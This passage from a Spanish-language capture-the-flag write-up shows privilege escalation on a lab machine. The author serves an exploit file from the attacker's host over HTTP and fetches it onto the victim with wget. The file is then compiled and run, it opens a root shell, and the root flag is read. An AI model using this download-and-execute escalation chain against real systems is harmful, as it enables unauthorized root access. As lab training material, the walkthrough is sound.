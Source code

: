 Vemos que existe una forma de escalar privilegios, vamos a intentarlo, nos traemos el .c a nuestro directorio con la flag **-m**.

Procedemos a compartir el archivo mediante un servidor http con python, en la máquina víctima haremos wget para descargarnos dicho archivo:

```
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Descargamos el archivo:

```
www-data@election:/tmp$ wget http://172.26.70.49/privesc.c
--2023-06-23 03:53:40--  http://172.26.70.49/privesc.c
Connecting to 172.26.70.49:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 588 [text/x-csrc]
Saving to: 'privesc.c'

privesc.c                                            100%[=====================================================================================================================>]     588  --.-KB/s    in 0s      

2023-06-23 03:53:40 (84.8 MB/s) - 'privesc.c' saved [588/588]
```

Nos descargamos el archivo en el directorio **tmp** para que no hayan problemas, vamos a compilarlo:

```
www-data@election:/tmp$ gcc privesc.c -o privesc
www-data@election:/tmp$ chmod +x privesc
```

Le damos permisos de ejecución y lo ejecutamos:

```
www-data@election:/tmp$ ./privesc 
uid=0(root) gid=0(root) groups=0(root),33(www-data)
opening root shell
# whoami
root
# cat /root/root.txt
5238feefc4ffe09645d97e9e
```

¡Listo! Hemos terminado la intrusión.

Nos vemos, hasta la próxima.
